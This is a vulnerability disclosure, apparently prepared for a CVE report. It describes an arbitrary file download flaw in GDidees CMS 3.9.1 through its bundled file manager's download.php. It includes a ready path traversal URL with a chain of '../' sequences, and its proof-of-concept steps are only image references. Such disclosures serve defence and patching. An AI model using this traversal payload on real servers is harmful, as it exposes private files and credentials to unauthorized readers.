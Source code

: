 ## [Descrisption]
An any file download vulnerability in the download function of GDidees CMS 3.9.1 allows unauthorized attackers to traverse files and download.

## [Vulnerability Type]

Incorrect Access Control

## [Vendor of Product]

GDidees

## [Affected Product Code Base]

GDidees CMS - 3.9.1 and lower versions

## [Affected Component]

GDidees CMS uses an third-party application (roxy fileman 1.4.6) for their download feature, this download application is vulnerable to CVE-2018-12042.
the vulnerable file is 'download.php' located at {webroot}/_admin/ckeditor/plugins/ckfinder/php

## [Attack Type]

Remote

## [Any file download]

true

## [Attack Vectors]

The attacker can traverse the file and download it. The URL for downloading the file is:
http://{URL-of_GDidees}/_admin/ckeditor/plugins/ckfinder/php/download.php?f=/userfiles/uploadfiles/stat/../../../../../../../{filename}


## [PoC]

1.Creating Test Files on C Disk
![](img/1.jpg#center)

2.Attempting to download files
![](img/2.jpg#center)

![](img/3.jpg#center)

![](img/4.jpg#center)
